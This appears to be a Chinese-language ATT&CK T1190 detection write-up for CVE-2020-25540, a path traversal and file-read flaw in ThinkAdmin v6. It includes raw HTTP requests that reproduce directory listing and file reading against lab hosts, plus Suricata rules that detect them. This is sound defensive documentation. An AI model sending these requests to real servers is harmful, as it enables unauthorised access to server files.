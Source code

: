 # T1190-CVE-2020-25540-Thinkadmin v6任意文件读取漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

ThinkAdmin6版本存在路径遍历漏洞。该漏洞主要是因为api中存在危险函数，没有任何过滤。攻击者可利用该漏洞通过请求编码参数任意读取远程服务器上的任意文件。

影响范围：ThinkAdmin版本小于 ≤ 2020.08.03.01

## 检测日志

HTTP

## 测试复现

Burp抓包，修改参数

```yml
POST /admin.html?s=admin/api.Update/node HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4e3eb8bf4d142b8bc21279a7418eea26
Upgrade-Insecure-Requests: 1
Content-Length: 27
Content-Type: application/x-www-form-urlencoded
 
rules=%5b%22%2e%5c%2f%22%5d
```

## 测试留痕

### 目录遍历

```yml
POST /admin.html?s=admin/api.Update/node HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

rules=%5B%22.%2F%22%5D
```

### 文件读取

```s
GET /admin.html?s=admin/api.Update/get/encode/5i6s524v5s6j5y4q1a383c38 HTTP/1.1
Host: 192.168.100.194:8000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: think_lang=zh-cn; PHPSESSID=d1645e8a719cdc2b6b8eb98c50624f52
Connection: close

HTTP/1.1 200 OK
Host: 192.168.100.194:8000
Date: Wed, 09 Dec 2020 10:53:17 +0800
Connection: close
X-Powered-By: PHP/7.2.1
Content-Type:application/json; charset=utf-8
Set-Cookie: think_lang=zh-cn; path=/
Set-Cookie: PHPSESSID=d1645e8a719cdc2b6b8eb98c50624f52; path=/

...{"code":1,"info":".....................","data":{"content":"dGVzdHRlc3R0ZXN0"}}
```

## 检测规则/思路

### Suricata规则

#### 目录遍历检测规则

```s
alert http any any -> any any (msg:"CVE-2020-25540-rsq";flow:established,to_server;content:"POST";http_method;content:"/admin.html?s=admin/api.Update/node";http_uri;content:"rules=";http_client_body;reference:url,www.freebuf.com/vuls/256529.html;flowbits:set,first_rsq;noalert;classtype:web-application-attck;sid:1;rev:1;)

alert http any any -> any any (msg:"CVE-2020-25540-目录遍历";flow:established,to_client;content:"200";http_stat_code;content:"获取文件列表成功";http_server_body;flowbits:isset,first_rsq;sid:2;rev:1;)
```

### 文件读取检测规则

```s
alert http any any -> any any (msg:"CVE-2020-25540-rsq";flow:established,to_server;content:"GET";http_method;content:"/admin.html?s=admin/api.Update/get/encode/";http_uri;reference:url,www.freebuf.com/vuls/256529.html;flowbits:set,first_rsq;noalert;classtype:web-application-attck;sid:1;rev:1;)

alert http any any -> any any (msg:"CVE-2020-25540-文件读取";flow:established,to_client;content:"200";http_stat_code;content:"data";http_server_body;flowbits:isset,first_rsq;sid:2;rev:1;)
```

### 建议

流量+安全设备比较容易检测到此攻击行为。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

CVE-2020-25540目录遍历文件读取漏洞

<https://www.freebuf.com/vuls/256529.html>
